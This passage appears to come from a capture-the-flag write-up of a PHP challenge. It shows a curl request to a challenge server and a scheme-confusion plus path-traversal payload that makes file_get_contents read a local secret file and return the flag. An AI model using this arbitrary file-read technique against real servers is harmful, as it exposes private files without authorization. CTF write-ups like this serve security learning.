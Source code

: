   <img src="/2021/YogoshaChristmas/img/PHPParse.png" height=250 width=450><br/>
</p>

In our case, we are not using `readfile`, so how does this `file_get_contents` function behave if we give it some weird url? We can try using an invalid scheme for the url 
& check the response. Trying to use a valid scheme (HTTP) gives us nothing but a normal response with the page's content, which is `All jutsus were hidden somewhere Sorry`.

If we try to use an invalid scheme (as example "httpno"), we'll get the following error in the response
```
$ curl "http://3.141.159.106/guinjutsu.php" --data-raw "submit=a&api=httpno://uchiha.fuinjutsukeeper.tech:5000&endpoint="
<br />
<b>Warning</b>:  file_get_contents(): Unable to find the wrapper &quot;httpno&quot; - did you forget to enable it when you configured PHP? in <b>/var/www/html/guinjutsu.php</b> on line <b>26</b><br />
<br />
<b>Warning</b>:  file_get_contents(httpno://uchiha.fuinjutsukeeper.tech:5000): Failed to open stream: No such file or directory in <b>/var/www/html/guinjutsu.php</b> on line <b>26</b><br />
```

Focusing on the warning, we are getting a `Failed to open stream`, which looks as if PHP is trying to open that as a file? Let's try to actually get the "/secret.txt" content!

Using the following url : `httpno://uchiha.fuinjutsukeeper.tech:5000/../../../../../secret.txt`<br/>
We'll gladly get our flag & our next target:

```
Yogosha{Master_Of_ArbitraRy_ReAdiNg_JuTsu}
Someone calling himself madara said to Itachi to kill everyone, I'm not sure about this intel but if it's right no one can beat Itachi except Shisui. Check this forum they are using http://3.141.109.49
```
